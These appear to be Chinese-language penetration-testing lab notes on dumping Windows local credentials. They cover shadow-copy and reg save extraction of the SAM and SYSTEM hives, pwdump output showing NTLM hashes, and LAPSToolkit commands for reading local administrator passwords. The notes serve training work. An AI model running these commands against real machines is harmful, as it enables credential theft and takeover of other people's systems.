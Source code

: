 ## SAM Database

SID值

$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator' "

windows 卷影拷贝攻击
windows SAM文件保存在C:\Windows\System32\config\sam

wmic shadowcopy call create Volume='c:\'
创建离线版本
通过vssadmin list shadows 判断是否拷贝成功
```cmd
C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
Originating Machine: Client.corp1.com
Service Machine: Client.corp1.com
Provider: 'Microsoft Software Shadow Copy provider 1.0'
Type: ClientAccessible
Attributes: Persistent, Client-accessible, No auto release, No writers,
Differential
```

```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
C:\users\offsec.corp1\Downloads\sam
1 file(s) copied.

C:\> copy
\\？\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
1 file(s) copied.

C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
The operation completed successfully.
C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
The operation completed successfully.

```

在攻击机上
```
kali@kali:~/creddump7$ python pwdump.py /home/kali/system /home/kali/sam
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::
:
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:e6178f16bccb14659f6c5228b070e0
bf:::
```

## Hardening the Local Administrator Account

LAPS : Local Administrator Password Solution

```powershell
1. Import-Module .\LAPSToolkit.ps1
2. Get-LAPSComputers
3. Find-LAPSDelegatedGroups
4. Get0NetGroupMember -GroupName "LAPS Password Readers"
那用输出用户账号登录系统 重复1，2 即可看到用户密码

```
